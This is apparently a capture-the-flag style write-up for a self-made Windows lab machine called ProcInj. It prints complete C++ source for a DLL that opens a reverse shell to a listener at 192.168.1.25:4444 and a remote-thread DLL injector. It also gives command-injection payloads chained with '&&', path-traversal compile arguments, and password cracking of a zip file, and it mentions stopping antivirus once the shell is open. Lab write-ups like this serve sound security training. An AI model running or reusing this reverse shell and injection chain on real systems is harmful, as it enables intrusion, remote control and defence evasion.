





I created a windows 10 machine called ProcInj, focusing on process injection and path traversal technique to get reverse shell. This writeup serves as a guide to solve the machine. Instruction to set up the lab can be seen in https://github.com/mdphuc/myfile/tree/main/VM/ProcInj/README.md

ProcInj hosts a website as below



After messing around with the website, we notice that there's a form commented on the website, uncomment it and submit the form we have a zip file downloaded to our machine


<br><br>


Try open it, we notice it's password protected



Use JohnTheRipper to crack the password with password list: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/common-passwords-win.txt 


<br><br>


Unzip the file and open information.txt we have


Messing around with the website, we notice it is used to compile a .cpp file into exe or dll. However, it forbids us to compile .cpp file with windows api into exe. Information.txt tells us that only C://ProgramData/ProcInj/System/debug.exe can run. Further test also shows that we can submit customed command with the form (We can craft it like ```hello && echo "1" > hello.txt``` then a file named hello.txt with 1 as its content will be created)

As what Information.txt shows, our plan now is to create a dll file with windows api and run it by inject it into another process 

Our testdll.dll is crafted as followed

```cpp
#include <iostream>
#include <windows.h>
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib, "w2_32")

using namespace std;

#ifdef __cplusplus   
extern "C" {         
#endif
 
__declspec(dllexport) int __cdecl mbox(LPCWSTR msg){
    WSADATA wsaData;
    SOCKET wSock;
    struct sockaddr_in hax;
    STARTUPINFO sui;
    PROCESS_INFORMATION pi;

    char *ip = "192.168.1.25";
    short port = 4444;

    // init socket lib
    WSAStartup(MAKEWORD(2, 2), &wsaData);

    // create socket
    wSock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

    hax.sin_family = AF_INET;
    hax.sin_port = htons(port);
    hax.sin_addr.s_addr = inet_addr(ip);

    // connect to remote host
    WSAConnect(wSock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

    memset(&sui, 0, sizeof(sui));
    sui.cb = sizeof(sui);
    sui.dwFlags = STARTF_USESTDHANDLES;
    sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE) wSock;

    // start cmd.exe with redirected streams
    CreateProcess(NULL, "powershell.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
    exit(0);

    MessageBox(NULL, TEXT("HELLO WORLD"), TEXT("TEST"), MB_OK);
    return 1;
}   
 
#ifdef __cplusplus
}
#endif

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved){
    switch(fdwReason){ 
        case DLL_PROCESS_ATTACH:
            mbox(L"Run");
            break;

        case DLL_THREAD_ATTACH:
            break;

        case DLL_THREAD_DETACH:
            break;

        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

Our debug.exe for injection is crafted as followed

```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>
#include <psapi.h>

using namespace std;

BOOL CompareCHAR(CHAR *char1, CHAR *char2){
    int i = 0;
    while(char1[i] != '\0' && char2[i] != '\0'){
        if (char1[i] != char2[i]){
            return false;
        }
        i ++;
    }
    if ((char1[i] == '\0' && char2[i] != '\0') || (char1[i] != '\0' && char2[i] == '\0')){
        return false;
    }
    return true;
}

DWORD GetProcessID(CHAR *process_name){
    HANDLE process_snap;
    PROCESSENTRY32 pe32;
    HANDLE handle_process;

    process_snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    pe32.dwSize = sizeof(PROCESSENTRY32);

    Process32First(process_snap, &pe32);

    do{
        if (CompareCHAR((CHAR*)pe32.szExeFile, process_name)){
            return pe32.th32ProcessID;
        }

        // cout << pe32.szExeFile << " " << process_name << endl;
    }while(Process32Next(process_snap, &pe32));
    return 0;
}

BOOL Inject(TCHAR *dll_to_inject, DWORD process_id_inject_to){
    TCHAR dll_path[MAX_PATH];

    GetFullPathName(dll_to_inject, MAX_PATH, dll_path, NULL);

    HANDLE hproc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, process_id_inject_to);
    // HANDLE hfile = CreateFileA((LPCSTR)dll_path, GENERIC_READ, 0, NULL, CREATE_NEW, FILE_ATTRIBUTE_NORMAL, NULL);

    // DWORD dllfilesize = GetFileSize(hfile, NULL);

    LPVOID dllalloc = VirtualAllocEx(hproc, NULL, strlen((CHAR*)dll_path), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    WriteProcessMemory(hproc, dllalloc, dll_path, strlen((CHAR*)dll_path), NULL);

    FARPROC loadlibraryA_addr = GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "LoadLibraryA");

    HANDLE rthread = CreateRemoteThread(hproc, NULL, 0, (LPTHREAD_START_ROUTINE)loadlibraryA_addr, dllalloc, 0, NULL);
    WaitForSingleObject(rthread, INFINITE);

    return true;
}

int main(){
    TCHAR dll_to_inject[MAX_PATH] = TEXT("C://ProgramData/ProcInj/Web/compiled/testdll.dll");

    CHAR process_to_get_id[] = "cmd.exe";

    DWORD pid = GetProcessID(process_to_get_id);

    if (pid == 0){
        cout << "Cannot find id of target process";
        return 1;
    }

    cout << pid << endl;
    cout << Inject(dll_to_inject, pid);
}
```
This is your netcat server to receive reverse shell (change it accordingly to your own)
```cpp
char *ip = "192.168.1.25"
short port = 4444
``` 
debug.exe is used to get cmd.exe's process id, and injection testdll.dll into that process id. Once CreateRemoteThread and WaitForSingleObject are called, function mbox in testdll.dll will run

Information.txt tells us that debug.txt leaves under C://ProgramData/ProcInj/System, and website reveals ```./Web/compiled```. We guess that website is running under ```C://ProgramData/ProcInj/Web``` and sure file after being compiled will be stored at ```./Web/compiled```, so we may probably use ```../..``` in our payload

We will initiate the process with these following payload respectively

1. ```testdll.cpp -shared -lws2_32 -o testdll.dll```
2. ```debug.cpp -o ../../System/debug.exe```
3. ```hello && powershell C://ProgramData/ProcInj/System/debug.exe```

We got reverse shell in the end 


We also notice that we cannot use tasklist or tskill or stop-process to stop av.exe; however, once we got the shell, it's ok to do that and get full access of the shell


